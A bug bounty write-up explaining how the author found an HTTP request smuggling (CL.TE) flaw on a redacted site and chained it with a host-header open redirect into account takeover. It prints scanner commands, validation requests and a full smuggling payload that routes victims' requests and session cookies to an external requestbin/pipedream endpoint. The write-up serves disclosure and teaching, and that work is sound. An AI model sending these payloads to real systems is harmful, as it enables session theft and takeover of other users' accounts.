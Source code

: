 ```yaml
---
title: I owe your Request | HTTP Request Smuggling leads to Full Accounts takeover
author: Muhammad Adel
date: 2021-08-29 19:40:00 +0200
categories: [Bug Hunting]
tags: [bug hunting, web, http request smuggling, writeups]
---
```


## **Introduction**
Peace be upon you all, this is actually my first writeup which going to be about a very interesting vulnerability, HTTP Request Smuggling, which I found in a private program which I was able to escalate it Full account takeover. I am going to share with you how to search for this vulnerability in a large scale and what the best tool and resource to utilize when testing for this vulnerability.

It begins almost when the amazing researcher [James kettle](https://twitter.com/albinowax) announce his new research at DEFCON which address a new era of the HTTP request smuggling but this time for HTTP/2. I watched the video and I couldn't understand any thing, So I went back and studied the previous version of this attack and I thought what about testing this "rare attack" as some people think before moving to the new one. I ended up finding this critical vulnerability at two different private programs.

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiH8QkhdKu6BciITe6D%2F-MiHFxfVj0C3vf_kr-u0%2Ftwitter.png?alt=media&token=76b7e577-2df0-4f4c-96f1-c7624ad3a351)

## **About HTTP Request Smuggling**
HTTP request smuggling is an attack in which an attacker interferes with the processing of a sequence of HTTP requests that a web application receives from one or more users. Vulnerabilities related to HTTP request smuggling are often critical, allowing an attacker to bypass security measures, gain unauthorized access to sensitive data, and directly compromise the information of other users of the application.

I am not going to cover it here because Portswigger did really good job at explaining this with practical Labs.

[https://portswigger.net/web-security/request-smuggling](https://portswigger.net/web-security/request-smuggling)

## **Methodology**
After you had learned about the vulnerability you can start looking for it in some bug bounty programs. you have two methods but remember you need to test this with caution because it is very harmful:

1.Using HTTP Request Smuggling Burp Extension either burp community or pro. you can widen your scope by adding more subdomains and URLs select them all and from the extension tab click **smuggle probe.**

‌2\. Using [smuggler.py](https://github.com/defparam/smuggler) tool which is a command line tool that replicate almost the same work of burp extension.

```bash
# Single Host:
python3 smuggler.py -u <URL>

# List of hosts:
cat list_of_hosts.txt | python3 smuggler.py
```
‌Note: These scanner will not guarantee the existing of vulnerability, there are false positives so you need to validate every finding of any of these tools.
‌
## **The Finding**

Since it is a private program we are going to name it as `readcted.com`I started by collecting some subdomains then I feed all those subdomain to burp and started to crawl the website. Then I run burp extension scanner in all the subdomains. and after some time I found this issue at my target tab.

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiH8QkhdKu6BciITe6D%2F-MiHNT93loWWcwRV3sTA%2Fburp_issue.png?alt=media&token=4d18476c-72bc-4dcc-add0-d7de0ee221db)

It is a CT.TE Here, the front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header. this information is very important to be able to exploit the vulnerability.

### **Validating**

I started now to validate if the vulnerability exits of its just a false positive. I send the following request:

```
POST / HTTP/1.1 
Host: subdoamin.readcted.com
Upgrade-Insecure-Requests: 1 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 7 
Transfer-Encoding: chunked 
Transfer-encoding: identity


1
A
0
```
which successfully triggers a connection time out indicating the backend server process the transfer encoding header. Now it is the time to exploit it.

### **Exploiting**

To exploit HTTP Request Smuggling Vulnerability you have to use turbo intruder to be able to send concurrent request and to receive the smuggled one before it reach the user. we will send the following request:

```
POST / HTTP/1.1
Host: redacted.com
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Transfer-Encoding: chunked
Transfer-encoding: identity

0

GET /video HTTP/1.1
Foo: x
```
We manged to send the smuggled request to **`/video`** to be able to disrupt the user experience by smuggle a not found web page. then we will chose **`smuggle attack CL.TE`** form the extension tab and then click attack.

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiH8QkhdKu6BciITe6D%2F-MiHTkc_PU7-cN6_EbLN%2Fnot_found%20turbo%20intuder.png?alt=media&token=53a10c8c-d248-4983-be21-a0cd2ba3c881)

Great! now we confirmed that the vulnerability exists and can disrupt the user experience who browse the website to redirect him to a not found page. but still we need to escalate this vulnerability to something else. as you know HTTP Request smuggling can lead to many vulnerabilities but still we need anther harmless vulnerability like Self XSS or Open redirection to be able to escalate our attack. I manged to search for Self XSS but unfortunately I didn't find. Let's search for an open redirected.

### **Harmless Open Redirect**

what we need to find is an open redirection to be able to redirect the user traffic with their own cookie to our server. we have found before a local redirection which is if the website isn't found it will make a redirection like the following:

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiMOdbd-AYVghO5XQ4x%2F-MiMRuFbfOUxn-gI7MvH%2Flocal%20redirection.png?alt=media&token=918b888e-cce1-42b6-9238-49b7f140fb67)

The problem is that the redirection is locally in the website and we need an external one. but what if change the host header to something else?!

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiMOdbd-AYVghO5XQ4x%2F-MiMSa2Vt5Cnx5F579av%2Fexternal%20redirection.png?alt=media&token=2673760a-394a-44ba-8339-6ac730428b47)

**BINGO!!** almost all the companies will not accept this vulnerability per se but by combining this with HTTP Request Smuggling we will do Magic!

### **Escalating to Full Account takeover**

Now let's craft our request that will be smuggled to send our malicious one. I will [request bin ](https://requestbin.com/)to receive users traffic into my endpoint. the payload shall looks like the following:
‌
```
POST / HTTP/1.1
Host: redacted.com
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 91
Transfer-Encoding: chunked
Transfer-encoding: identity

0

GET /video HTTP/1.1
Host: enfliy4kmrr8i.x.pipedream.net
Foo: x
```
and then pass our request to turbo intruder and start our attack:

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiMqTVoY0h_myvBGJ3h%2F-MiN12rU2wKYeV-0YdJu%2F1-turbo-intruder-redacted.png?alt=media&token=2cc95312-90cc-49ad-aee0-9016c56a0f11)

Okay, the attack worked now let's back to or endpoint to see what's happen.

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiMqTVoY0h_myvBGJ3h%2F-MiN2Uly_EoUyexj4Omh%2F3-Request%20bin%20--%20with%20Cookie-redacted.png?alt=media&token=2b599ba5-3516-45b1-914b-341164a2c1fc)

**BOOM!!** My endpoint is flooding with requests that contains cookie. Now, I can fully takeover any account who is browsing the website.

## **Conclusion**

I have reported this and they are working on a fix at the current moment. The sad story is that this report has been closed as duplicate but I was able to find the same technique on anther website and received 4 digit bounty as reward.

I hope you enjoyed reading this and if you have any question feel free to ping me any time, Happy Hunting!